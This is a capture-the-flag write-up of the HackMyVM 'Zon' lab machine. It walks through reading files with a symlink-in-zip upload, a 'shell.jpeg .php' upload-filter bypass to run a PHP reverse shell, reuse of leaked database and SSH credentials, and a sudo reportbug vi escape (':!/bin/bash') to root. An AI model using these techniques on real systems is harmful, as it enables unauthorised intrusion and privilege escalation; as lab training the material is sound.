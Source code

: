 ```yaml
---
title: HackMyVM - Zon
decription:
date: 2024-02-01
tags: ZIP FILE-UPLOAD
category: CTF
author: raylex
---
```

## Enumeration
### 80 - Apache HTTP
Directory fuzzing reveals some interesting files and directoriey
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ cat fuzz/fuzz
/js                   (Status: 301) [Size: 309] [--> http://192.168.58.38/js/]
/index.php            (Status: 200) [Size: 29170]
/css                  (Status: 301) [Size: 310] [--> http://192.168.58.38/css/]
/images               (Status: 301) [Size: 313] [--> http://192.168.58.38/images/]
/contact.php          (Status: 200) [Size: 11753]
/report.php           (Status: 200) [Size: 13]
/blog.php             (Status: 200) [Size: 12490]
/uploads              (Status: 301) [Size: 314] [--> http://192.168.58.38/uploads/]
/upload.php           (Status: 500) [Size: 0]
/about.php            (Status: 200) [Size: 10538]
/service.php          (Status: 200) [Size: 12239]
/.                    (Status: 200) [Size: 29170]
/fonts                (Status: 301) [Size: 312] [--> http://192.168.58.38/fonts/]
/icon                 (Status: 301) [Size: 311] [--> http://192.168.58.38/icon/]
/testimonial.php      (Status: 200) [Size: 17014]
/choose.php           (Status: 200) [Size: 1908]
```
Zip files containing `.jpeg` images are accepted by the `choose.php` page, which also extracts the image and stores it in the `/uploads` directory.  
I'll use the symlink method to read files from the target
- Symlink `/etc/passwd` to `test.jpeg`
```shell
ln -s /etc/passwd ./test.jpeg
```shell
- Create malicious zip
```shell
zip -r file.zip test.jpeg --symlink
```shell
- Upload malicious zip
- Download the test.jpeg from the target
```sjell
wget http://192.168.58.38/uploads/test.jpeg
```
- Extract the strings in the file
```shell
┌──(r4yl3x㉿k4l1)-[~/CTF/HackMyVM/Zon]
└─$ strings test.jpeg
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:107::/nonexistent:/usr/sbin/nologin
avahi-autoipd:x:101:109:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
sshd:x:102:65534::/run/sshd:/usr/sbin/nologin
dnsmasq:x:103:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
polkitd:x:996:996:polkit:/nonexistent:/usr/sbin/nologin
mysql:x:104:112:MySQL Server,,,:/nonexistent:/bin/false
Debian-snmp:x:105:113::/var/lib/snmp:/bin/false
freddie:x:1000:1000:,,,:/home/freddie:/bin/zsh
```
### File read
Now that i can read local files, I'll modify a script [[Zon#^read]] 0xdf made in [HTB: Zipping | 0xdf hacks stuff](https://0xdf.gitlab.io/2024/01/13/htb-zipping.html) so i don't have to symlink,zip and upload every time i want to view a file.  
The webapp's root directory is `/var/www/html`
- report.php
```php
<?php
$data = json_decode(file_get_contents('php://input'), true);
// Temporary random value for testing purposes only
$randomValue = rand(999999, getrandmax());
if ($data['shortSeq'] != $randomValue) {
    die("Access denied");
echo "Authorized access";
shell_exec('./hashDB.sh');
```
- hashDB.sh ^mysql
```shell
#!/bin/bash
# script that checks the database's integrity every minute
dump=/dev/shm/dump.sql
log=/var/log/db_integrity_check.log
true > "${log}"
/usr/bin/mysqldump -u admin -pudgrJbFc6Av#U3 admin credentials > "${dump}"
/usr/bin/sed -i '$d' "${dump}"
hash="29d8e6b76aab0254f7fe439a6a5d2fba64270dde087e6dfab57fa57f6749858a"
check_hash=$(sha256sum "${dump}" | awk '{print $1}')
if [[ "${hash}" != "${check_hash}" ]] ; then
  /usr/bin/wall "Alert ! Database hacked !"
  /usr/bin/du -sh /var/lib/mysql >> "${log}"
  /usr/bin/vmstat 1 3 >> "${log}"
else
  /usr/bin/sync && /usr/bin/echo 3 > /proc/sys/vm/drop_caches
  /usr/bin/echo "$(date) : Integrity check completed for ${dump}" >> "${log}"
```
> MySQL Credential!  
> User: admin  
> Password: udgrJbFc6Av#U3
- upload.php  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
## Foothold
### Shell as www-data
Looking at the code, i see that it can be tricked by zipping a file like `shell.jpeg .php`, the `awk '{print $4}'` command will print the 4th line, thereby omitting the `.php` at the end.  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
This will result in a `return_var=0`, which is just what's needed for the actual unzipping part of the code to be processed.  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
Now i'll upload my malicious zip file which should pass all checks and drop `shell.jpeg .php` in the `uploads` directory which results in RCE   
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }   
I'll upload pentest-monkey's php reverse shell and get shell as `www-data`  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
- Stabilize the shell
### www-data -> freddie
Now that i have a stable shell, i''ll attempt to login to the [[Zon#^mysql]] db i saw earlier  
![db](/docs/assets/images/Pasted image 20240127114424.png)  
I'll login as `fredie` via ssh and retrieve #user-flag 
```shell
╭─freddie@zon ~
╰─$ cat user.txt
a0b4603c7fde7e4113d2ee5fbee5a038
```  
> SSH Credential  
> Username: freddie  
> Password: LDVK@dYiEa2I1lnjrEeoMif  

## Privilege Escalation 
Sudo commands run really slow cause hostname `zon` isn't in the `/etc/hosts` file
Listing sudoers reveals user `freddie` may run `/usr/bin/reportbug` as `root`
```shell
sudo: unable to resolve host zon: Name or service not known
Matching Defaults entries for freddie on zon:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User freddie may run the following commands on zon:
    (ALL : ALL) NOPASSWD: /usr/bin/reportbug
```
The program is a debian bug report tool written in python  
Since it's a bug report tool running as root, i'm just going to guess is uses vim editor for bug writing submissions. Searching `/usr/bin/reportbug editor` confirms this  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
Now i just have to find a way to the editor
### freddie -> root
After briefly going through the documentation, i'll attempt to submit a report
```
sudo /usr/bin/reportbug
```
...and go on with the configuration
- select any operating mode - normal
- select internet option - n
- enter name - root
- enter an email - root@zon.local
- no transport agent
- no proxy
- `y` to continue as root
- enter `other` or any program name - `apt`
- enter a subject for the report
- select any severity
- it should now request for the editor, select Vi (if not specified using `-e`)
- enter the command `:!/bin/bash`
and a shell will be spawned as the `root` user  
![upload.php](/docs/assets/images.jpg/){: w="700" h="400" }  
Retrieve the #root-flag 
```shell
root@zon:~# cat /root/root.txt
18a72aa09ce61fb487fd6745c8eba769
```
